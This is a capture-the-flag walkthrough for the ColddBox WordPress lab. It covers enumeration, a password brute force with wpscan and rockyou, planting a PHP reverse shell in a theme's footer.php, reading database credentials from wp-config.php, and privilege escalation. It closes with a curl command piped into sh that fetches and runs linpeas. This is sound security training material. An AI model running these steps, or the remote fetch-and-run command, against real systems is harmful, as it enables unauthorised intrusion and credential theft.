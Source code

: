 **Category:** Web
**Author:** *Harsh Sharma*

# ColddBox

## Enumeration using nmap 
`nmap -sV -sC -p- 10.10.92.255`

![alt text](image.png)


## Dir enumeration

`gobuster dir -u 10.10.92.255 -w /usr/share/dirb/wordlists/common.txt -x html,php -q`

![alt text](image-1.png)

It's a worpress site : 4.1.31 (helpful later)

## Exploiting wordpress

There's a hidden directory, let's search that first
![alt text](image-2.png)

The usual credentials didn't work
![alt text](image-3.png)

But looking at the version, it has multiple vulns and appears to be exploitable -
![alt text](image-4.png)

let's use the exploit -
`cp /usr/share/exploitdb/exploits/php/webapps/41497.php exploit.php`

did not work, let's try an alternate approach

### Using WPscan

`wpscan --url 10.10.92.255 -e | tee wpscan.log`

![alt text](image-5.png)
found some users. let's try to brute force passwords.

As we remember from before, Coldd is a main user, so let's try his username -

`wpscan --url 10.10.92.255 -U c0ldd -P /usr/share/wordlists/rockyou.txt | tee wpuser.log`

![alt text](image-6.png)

and we find the password, let's log in-

## WP exploitation
we found an upload page:
![alt text](image-7.png)

let's try to upload a reverse shell from `*revshells.com*` -
![alt text](image-9.png)

and .php is blocked
![alt text](image-11.png)

workaround? let's try a different and uncommon filetype compatible with php
![alt text](image-12.png)

it appears there's a filtering for specific-media types only, let's poke around more-

![alt text](image-13.png)
Found th 404.php, header, footer and other php page, we can exploit this

![alt text](image-16.png)
Edited footer.php with above

![alt text](image-15.png)


netcat listener -
![alt text](image-10.png)


to run it, let's try to refresh ths site...

and voila, we get the shell-
![alt text](image-17.png)

let's find the file -
![alt text](image-18.png)

![alt text](image-19.png)

nothing much in there, let's take a step back and explore the file system-
![alt text](image-20.png)

there are some folders to which we can read and write but they are a dead end too, however we can use them to run linpeas.sh
OR 
we can get a tty and continue manual priv. esc.

![alt text](image-21.png)

unsuccessful :(

finally after poking around for a while, i was able to locate some credentials in `var/www/html/wp-config.php`
![alt text](image-22.png)

![alt text](image-23.png)

after sshing with the same password -
![alt text](image-24.png)

and gtfo bin-
![alt text](image-25.png)

![alt text](image-26.png)

and we can navigate to root folder to get the root access! :D



**NOTE:**
We can also try to exploit chmod along with vim and to get details for priv escalation, we can use linpeas.sh which is as follows -

`curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`





